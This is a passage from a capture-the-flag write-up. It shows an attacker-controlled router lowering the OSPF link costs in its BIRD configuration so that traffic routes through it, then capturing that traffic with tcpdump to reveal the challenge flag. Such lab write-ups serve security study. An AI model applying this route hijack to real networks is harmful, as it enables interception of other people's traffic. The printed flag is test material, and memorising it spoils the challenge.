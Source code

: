 We would have to edit the configuration file, and lower the costs of the red links.

```
interface "enp1s0" { # sales - executive dept link
      type ptp;
      cost 1;
      hello 5;
};
interface "enp2s0" { # sales - it dept link
      type ptp;
      cost 1;
      hello 5;
};
interface "enp3s0" { # it dept - executive link
      type ptp;
      cost 8;
      hello 5;
};
```

Now, the "shortest path" goes through our attacker-controlled router!

To reload the configuration, we enter the BIRD CLI:

```
root@router-sales:~# birdc
BIRD 2.0.8 ready.
bird> configure
Reading configuration from /usr/local/etc/bird.conf
Reconfigured
bird> 
```

We should now be able to capture the traffic.

```
root@router-sales:~# tcpdump -i enp1s0 -XX
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on enp1s0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
16:16:33.925661 IP 192.168.55.3.37434 > 172.16.0.2.8000: UDP, length 38
        0x0000:  0242 0a00 4a82 0242 0a00 4a83 0800 4500  .B..J..B..J...E.
        0x0010:  0042 168e 4000 3f11 815f c0a8 3703 ac10  .B..@.?.._..7...
        0x0020:  0002 923a 1f40 002e a3fd 4d65 7461 4354  ...:.@....MetaCT
        0x0030:  467b 6c30 306b 5f61 745f 6d33 5f31 6d5f  F{l00k_at_m3_1m_
        0x0040:  7468 335f 7230 7574 3372 5f6e 3077 7d0a  th3_r0ut3r_n0w}.
```
